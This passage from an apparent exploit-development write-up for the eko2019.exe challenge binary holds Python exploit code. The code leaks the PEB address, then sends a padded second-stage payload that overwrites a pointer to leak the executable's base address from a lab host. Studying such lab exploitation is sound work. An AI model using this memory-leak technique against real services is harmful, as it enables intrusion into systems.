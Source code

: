 ```python

# Indexing the response to view RAX (PEB)
receive = s.recv(1024)
peb_unpack = struct.unpack_from('<Q', receive)
peb_addr = peb_unpack[0]

print "[+] PEB is located at: {0}".format(hex(peb_addr))

# Closing the connection
s.close()

# Allow buffer room
sleep(2)

# 2nd stage

# 16 total bytes
print "[+] Sending the second header..."
exploit_2 = "\x45\x6B\x6F\x32\x30\x31\x39\x00" + "\x90"*8

# 512 byte offset to the byte we control
exploit_2 += "\x41" * 512

# Just want a vanilla mov rax, qword ptr[rcx], which already exists - so sliding in with a NOP to this instruction
exploit_2 += "\x90"

# Padding to loading PEB+0x10 into rcx
exploit_2 += "\x41\x41\x41\x41\x41\x41\x41"
exploit_2 += struct.pack('<Q', peb_addr+0x10)

# Message needs to be 528 bytes total
exploit_2 += "\x41" * (544-len(exploit_2))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.132", 54321))
s.sendall(exploit_2)

# Indexing the response to view RAX (Base VA of eko2019.exe)
receive_2 = s.recv(1024)
base_va_unpack = struct.unpack_from('<Q', receive_2)
base_address = base_va_unpack[0]

print "[+] The base address for eko2019.exe is located at: {0}".format(hex(base_address))

# Closing the connection
s.close()
```

We hit our NOP and then execute it, sliding into our intended instruction.
